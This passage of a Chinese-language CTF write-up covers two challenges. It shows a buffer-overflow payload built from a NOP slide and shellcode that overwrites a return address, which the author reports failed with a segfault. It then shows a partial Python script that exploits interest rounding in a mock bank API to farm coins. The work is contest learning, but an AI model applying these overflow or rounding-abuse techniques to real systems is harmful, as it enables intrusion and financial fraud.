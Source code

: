 ```shell
[+] Opening connection to 202.38.93.111 on port 10141: Done
[*] Switching to interactive mode
You wanna put X on (0,1)...
OX_
___
___
What? You win! Here is your flag:
flag{easy_gamE_but_can_u_get_my_shel1}
```

然后flag还提示了可以拿shell，只会[NOP slide](https://en.wikipedia.org/wiki/NOP_slide)的我决定继续升上天空，算了算偏移量，然后写出这样的payload，可以覆盖(EBP+0x8)处的返回地址，跳转到NOP再滑向shellcode：

```python
b'(0,1)' + b'\x90'*(0x90-0x6-len(shellcode)) + shellcode + b'\x01' + b'\x90'*8 + b'\xd8\xdd\xff\xff\xff\x7f\x00\x00'
```

SEGMENTATION FAULT，大概是编译的时候有stack protector…败了。

```shell
Program received signal SIGSEGV, Segmentation fault.
```

## 0x0d 狗狗银行

> 你能在狗狗银行成功薅到羊毛吗？

![](https://storage.krrr.party/storage/klog2/20201109193831.50410e5d67e727dfcaadd12979646802.png)

初始储蓄卡里1000 doge_coin（之后省略单位了吧），日利率0.3%，显然不够吃饭；而信用卡日利率0.5%，借了钱每天最低也要交10，惨。

![](https://storage.krrr.party/storage/klog2/20201109193854.344cc2853e8c91c8972a61403181ec13.png)

后来的公告还提示了后端为大整数计算，排除了欠款溢出的操作，还设了1000张卡的上限，估计是要办很多卡来薅羊毛。

在尝试之后发现利息会有舍入，存款为167的储蓄卡理论上每日利息为0.501，实际计为1，而欠款为2099的信用卡利息为10.495，实际还是会变为10；于是可以用储蓄卡来套利，极限操作的实际利率为1/167=0.5988%，够还信用卡的利息+吃饭了。

编写自动化脚本来完成所有的操作：

```python
import requests
import json

url = 'http://202.38.93.111:10100'
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36',
    'Authorization': 'DETACHED'
}


def create(card_type):
    '''credit/debit'''
    url_create = url + '/api/create'
    payload = {'type': card_type}
    requests.post(url_create, headers=headers, json=payload)


def transfer(src, dst, amount):
    url_transfer = url + '/api/transfer'
    payload = {'src': src, 'dst': dst, 'amount': amount}
    requests.post(url_transfer, headers=headers, json=payload)


def eat(card_id):
```